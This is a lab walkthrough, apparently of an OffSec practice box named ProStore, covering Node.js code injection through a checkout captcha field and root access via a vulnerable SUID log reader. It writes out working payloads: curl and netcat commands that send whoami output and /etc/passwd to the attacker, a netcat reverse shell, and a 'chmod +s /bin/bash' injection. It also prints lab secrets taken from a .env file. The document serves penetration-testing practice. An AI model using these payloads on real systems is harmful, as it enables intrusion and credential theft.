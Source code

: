 # ProStore

We start off by scanning network:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On port 500 we find this website:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I try to log in as admin with admin:admin

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Interesting error message maybe we can enumerate usernames by bruteforcing

But first i register and login with admin:admin and i add an item to my cart and go to checkout:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is a pretty obvious foothold direction so i enter everything and capture the request with burp:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The only error i manage to pop is when i input a string in the captcha:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So while looking up at the error:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that it treats our input as code and does not find the variable so i need a way to call a function that is defined:

{% embed url="https://www.nodejs-security.com/blog/secure-javascript-coding-practices-against-command-injection-vulnerabilities" %}

so `child_process.exec` seems very unsecure since it does not avoid shell interpretation of arguments. Maybe we can exploit that by calling exec. Since this box is out of scope for OSCP i ask GPT, my bad skill issue

```
require('child_process').exec("whoami | curl -X POST -d @- http://ton-webhook.com");
```

Ok so i got stuck here for a bit, the webserver only allows requests on port 80:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('nc+192.168.49.59+80')</p></figcaption></figure>

The requests work on port 80 and 443 but is blocked anywhere else, after looking it up the target system or its network might have outbound filtering that **only allows traffic on ports 80 and 443**.

So now i am able to pipe the command injection to have some interesting output on my listener:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('cat+/etc/passwd|nc+192.168.49.59+443')</p></figcaption></figure>

Then i tried a basic reverse shell but got no response so obvious reason is that -e is blocked so i tried finding a `nc -e` bypass:

{% embed url="https://www.keuperict.nl/posts/security/2017/08/26/netcat-without-e/" %}

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

and the redirect busted my command so the final payload i injected was:

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('tail+-n+0+-f+/tmp/1+|+/bin/sh|+nc+-nv+192.168.49.59+443+1>+/tmp/1')</p></figcaption></figure>

Now i try and download linpeas

{% hint style="warning" %}
firewall blacklists connectiosn from ports ≠ 80 or 443 so i host my python server on port 80
{% endhint %}

So after running linpeas here is everything i found that seemed interesting for PE:

```sh
???????????? Searching root files in home dirs (limit 30)
/home/                                                                                                                                                                              
/home/observer/.bash_history
/root/


-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/write.ul (Unknown SGID binary)

-rwsr-xr-x 1 root root 20K Feb 13  2023 /usr/local/bin/log_reader (Unknown SUID binary!)

??? Possible private SSH keys were found!
/home/observer/app/backend/node_modules/dotenv/README.md


???????????? Analyzing Env Files (limit 70)
-rw-r--r-- 1 observer observer 247 Dec 23  2022 /home/observer/app/backend/.env                                                                                                     
APP_PORT=5000
DB_HOSTNAME="127.0.0.1"
DB_NAME="prostore_db"
DB_PASSWORD="d8491f5ddd9137cc3630a8a054b01cdf71110a62"
DB_PORT=5432
DB_USER="prostore"
JWT_SECRET="d148c461e7241a2c94727e17fa70b90f"
PASSWORD_HASH_SALT="a008e3dc8f8ec8a0a6e485b890d74d91"
```

I cleared most of the find except the write.ul and log reader:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and for the log reader:

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i try to test what i can do with  this log reader:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

it does not seem to do anything :skull:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

ok we're getting somewhere!!!

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So it only reads log file... How could i guess that...

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Ok we are starting to have interesting errors:

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

LETSGOOOOOOOOO

yeah so that was the easy way but it's interesting to try and get a shell since we can run command injections as root:

In this box i did something that i think i can abuse now:

{% content-ref url="../linux/rubydome.md" %}
[rubydome.md](../linux/rubydome.md)
{% endcontent-ref %}

```
/usr/local/bin/log_reader 'test.log|chmod +s /bin/bash'
```

<figure><img src="../../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

My first beyond root

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
